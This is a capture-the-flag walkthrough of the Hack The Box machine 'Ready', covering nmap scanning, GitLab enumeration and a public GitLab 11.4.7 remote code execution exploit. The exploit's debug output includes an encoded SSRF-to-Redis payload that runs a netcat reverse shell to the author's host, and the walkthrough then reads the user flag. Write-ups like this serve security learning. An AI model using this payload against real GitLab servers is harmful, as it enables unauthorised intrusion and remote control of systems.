






# Hack the box - Ready

### IP: 10.10.10.220

## Check connectivity
```
┌──(kali㉿kali)-[~]
└─$ ping 10.10.10.220
PING 10.10.10.220 (10.10.10.220) 56(84) bytes of data.
64 bytes from 10.10.10.220: icmp_seq=1 ttl=63 time=309 ms
^C
--- 10.10.10.220 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 309.207/309.207/309.207/0.000 ms
```

## Enumeration with nmap
```
┌──(kali㉿kali)-[~]
└─$ nmap -A 10.10.10.220 
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-20 12:37 EST
Nmap scan report for 10.10.10.220
Host is up (0.41s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
22/tcp   open     ssh        OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
1524/tcp filtered ingreslock
5080/tcp open     http       nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.68 seconds

```
## Check robots.txt and download
It seems like a gitlab server:
```
┌──(kali㉿kali)-[~]
└─$ curl 10.10.10.220:5080/robots.txt                                                                                                                                                                                                130 ⨯
# See http://www.robotstxt.org/robotstxt.html for documentation on how to use the robots.txt file
#
# To ban all spiders from the entire site uncomment the next two lines:
# User-Agent: *
# Disallow: /

# Add a 1 second delay between successive requests to the same server, limits resources used by crawler
# Only some crawlers respect this setting, e.g. Googlebot does not
# Crawl-delay: 1

# Based on details in https://gitlab.com/gitlab-org/gitlab-ce/blob/master/config/routes.rb, https://gitlab.com/gitlab-org/gitlab-ce/blob/master/spec/routing, and using application
User-Agent: *
Disallow: /autocomplete/users
Disallow: /search
Disallow: /api
Disallow: /admin
Disallow: /profile
Disallow: /dashboard
Disallow: /projects/new
Disallow: /groups/new
Disallow: /groups/*/edit
Disallow: /users
Disallow: /help
# Only specifically allow the Sign In page to avoid very ugly search results
Allow: /users/sign_in

# Global snippets
User-Agent: *
Disallow: /s/
Disallow: /snippets/new
Disallow: /snippets/*/edit
Disallow: /snippets/*/raw

# Project details
User-Agent: *
Disallow: /*/*.git
Disallow: /*/*/fork/new
Disallow: /*/*/repository/archive*
Disallow: /*/*/activity
Disallow: /*/*/new
Disallow: /*/*/edit
Disallow: /*/*/raw
Disallow: /*/*/blame
Disallow: /*/*/commits/*/*
Disallow: /*/*/commit/*.patch
Disallow: /*/*/commit/*.diff
Disallow: /*/*/compare
Disallow: /*/*/branches/new
Disallow: /*/*/tags/new
Disallow: /*/*/network
Disallow: /*/*/graphs
Disallow: /*/*/milestones/new
Disallow: /*/*/milestones/*/edit
Disallow: /*/*/issues/new
Disallow: /*/*/issues/*/edit
Disallow: /*/*/merge_requests/new
Disallow: /*/*/merge_requests/*.patch
Disallow: /*/*/merge_requests/*.diff
Disallow: /*/*/merge_requests/*/edit
Disallow: /*/*/merge_requests/*/diffs
Disallow: /*/*/project_members/import
Disallow: /*/*/labels/new
Disallow: /*/*/labels/*/edit
Disallow: /*/*/wikis/*/edit
Disallow: /*/*/snippets/new
Disallow: /*/*/snippets/*/edit
Disallow: /*/*/snippets/*/raw
Disallow: /*/*/deploy_keys
Disallow: /*/*/hooks
Disallow: /*/*/services
Disallow: /*/*/protected_branches
Disallow: /*/*/uploads/

```


## Check website on 5080
Effectively it's a gitlab server:


## Create user and login


## Check interesting paths in robots.txt
/autocomplete/users:



/help:
the update asap message seems like this version of gitlab has vulnerabilities


## Gitlab 11.4.7 vulnerability - Remote Code Execution
[Gitlab 11.4.7 - Remote Code Execution](https://www.exploit-db.com/exploits/49257)



following the instructions... with burpsuite we relogin and cath cookie and authenticity_token and execute the exploit. In that moment:

user: cedelasen

authenticity_token (url decoded): ZPzafQZZ96D8V7FBGLicJqnoikEdijO9m1grjsZn/by08vg0G04Ck7IGI/fm0HRmFmhGiQC8uW9Shjid/q8DbA==

cookie_session: _gitlab_session=1b997b73854f10006f8f921e88e1edf8

reverse shell:

```
┌──(kali㉿kali)-[~/htb-ready]
└─$ python3 49257.py
Debug => Token: ZPzafQZZ96D8V7FBGLicJqnoikEdijO9m1grjsZn/by08vg0G04Ck7IGI/fm0HRmFmhGiQC8uW9Shjid/q8DbA==
Debug => Cookie: _gitlab_session=1b997b73854f10006f8f921e88e1edf8; sidebar_collapsed=false
Debug => Namespace ID: 6
Debug => Payload encoded: utf8=%E2%9C%93&authenticity_token=ZPzafQZZ96D8V7FBGLicJqnoikEdijO9m1grjsZn%2Fby08vg0G04Ck7IGI%2Ffm0HRmFmhGiQC8uW9Shjid%2Fq8DbA%3D%3D&project%5Bci_cd_only%5D=false&project%5Bname%5D=mlcsTRxa&project%5Bnamespace_id%5D=6&project%5Bpath%5D=mlcsTRxa&project%5Bdescription%5D=mlcsTRxa&project%5Bvisibility_level%5D=20&=project%5Binitialize_with_readme%5D&project%5Bimport_url%5D=git%3A%2F%2F%5B0%3A0%3A0%3A0%3A0%3Affff%3A127.0.0.1%5D%3A6379%2F%0A+multi%0A+sadd+resque%3Agitlab%3Aqueues+system_hook_push%0A+lpush+resque%3Agitlab%3Aqueue%3Asystem_hook_push+%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class_eval%5C%22%2C%5C%22open%28%27%7Cnc+10.10.14.133+4444+-e+%2Fbin%2Fsh%27%29.read%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system_hook_push%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created_at%5C%22%3A1513714403.8122594%2C%5C%22enqueued_at%5C%22%3A1513714403.8129568%7D%22%0A+exec%0A+exec%0A+exec%0A%2Ftest%2FmlcsTRxa.git
listening on [any] 4444 ...
connect to [10.10.14.133] from (UNKNOWN) [10.10.10.220] 48408

```

## Change terminal
```
...
python3 -c "import pty; pty.spawn('/bin/bash')"
git@gitlab:~/gitlab-rails/working$
```

## Get the user flag (check users from http://10.10.10.220:5080/autocomplete/users)
```
git@gitlab:~/gitlab-rails/working$ cd /home
cd /home
git@gitlab:/home$ ls
ls
dude
git@gitlab:/home$ cd dude
cd dude
git@gitlab:/home/dude$ ls -la
ls -la
total 24
drwxr-xr-x 2 dude dude 4096 Dec  7 16:58 .
drwxr-xr-x 1 root root 4096 Dec  2 10:45 ..
lrwxrwxrwx 1 root root    9 Dec  7 16:58 .bash_history -> /dev/null
-rw-r--r-- 1 dude dude  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 dude dude 3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 dude dude  655 May 16  2017 .profile
-r--r----- 1 dude git    33 Dec  2 10:46 user.txt
git@gitlab:/home/dude$ cat user.txt
cat user.txt
e1e30b052b6ec0670698805d745e7682
```